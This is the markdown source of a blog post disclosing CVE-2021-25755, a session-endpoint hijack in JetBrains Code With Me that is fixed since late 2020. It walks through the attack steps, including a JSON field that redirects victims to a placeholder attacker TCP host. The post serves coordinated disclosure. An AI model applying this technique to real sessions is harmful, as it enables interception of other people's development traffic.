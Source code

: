 ```yaml
---
layout: post
title:  "Unauthorized access to Code With Me traffic (CVE-2021-25755)"
date:   2021-04-02 12:26:56 +0300
categories: cve
---
```


In this post I am going to share some details about [Code With Me](https://www.jetbrains.com/code-with-me/) traffic interception vulnerability [CVE-2021-25755](https://nvd.nist.gov/vuln/detail/CVE-2021-25755). Code With Me is a new collaborative development and pair programming service from JetBrains that provides such experience *just one click away*.

## Short description:

In JetBrains Code With Me before 2020.3, an attacker on the local network, knowing a session ID, could get access to the encrypted traffic.

## Links:

- [JetBrains Security Bulletin Q4 2020](https://blog.jetbrains.com/blog/2021/02/03/jetbrains-security-bulletin-q4-2020/)
- [CVE-2021-25755](https://nvd.nist.gov/vuln/detail/CVE-2021-25755)
- [CWM-1067](https://youtrack.jetbrains.com/issue/CWM-1067)
- [JetBrains Coordinated Disclosure Policy](https://www.jetbrains.com/legal/docs/terms/coordinated-disclosure.html)

## Details:

I intercepted Code With Me traffic and found the following request to create a new session. I slightly changed it to an see error message in response:

[![json_parsing_error_message_too_verbose](/images/json_parsing_error_message_too_verbose.png)](/images/json_parsing_error_message_too_verbose.png)

It turned out that it was possible to replace TCP endpoint hosts for existing sessions.  The main problem here is that it was possible to define session for `createSession` request and replace existing session with another one but define different TCP host for the new session using information from the invitation link only:

1. Host generates the invitation link and share it with other participants

2. Attacker takes this invitation link with `session id` and `fingerprint` in parameters: 
```
https://code-with-me.jetbrains.com/sUn2L9Js6TNjV77U3vxvAQ#p=IC&
fp=0432495F97E9FBD672266015DD1E3E3361BAEFAA0E16E8CA47BEA23A39136E87
```

3. Attacker updates current session properties with `sessionId` parameter and set `hostDirectTcpEndpoints` to attacker's host with TCP proxy 
`"hostDirectTcpEndpoints" : [ "tcp://<attacker_host>:<port>"]`  using `sessionId` and `hostFingerprint` from the invitation link: [![change_properties_of_existing_session_using_public_information](/images/change_properties_of_existing_session_using_public_information.png)](/images/change_properties_of_existing_session_using_public_information.png)

4. Victims follow this link to connect to the Host, but instead it connects to the attacker's host (which could proxy “Code With Me” traffic to a legitimate Host).
Victim starts connection process and request details using the invitation link:
[![client_request_for_tcp_endpoint_returns_attacker_host](/images/client_request_for_tcp_endpoint_returns_attacker_host.png)](/images/client_request_for_tcp_endpoint_returns_attacker_host.png)
Victim receives an attacker host for connection: 
[![response_to_client_with_attacker_host](/images/response_to_client_with_attacker_host.png)](/images/response_to_client_with_attacker_host.png)


5. Attacker intercepts encrypted traffic between the victims and legitimate Host (Victim's IDE -> Attacker host -> Original Host IDE that is running locally):
[![tcp_proxy_log](/images/tcp_proxy_log.png)](/images/tcp_proxy_log.png)

## Timeline:

1. 6 Oct 2020 - reported to JetBrains (CWM-1067)
2. 7 Oct 2020 - confirmed
3. 1 Nov 2020 - fixed
4. 3 Feb 2021 - mentioned in JetBrains Security Bulletin, CVE assigned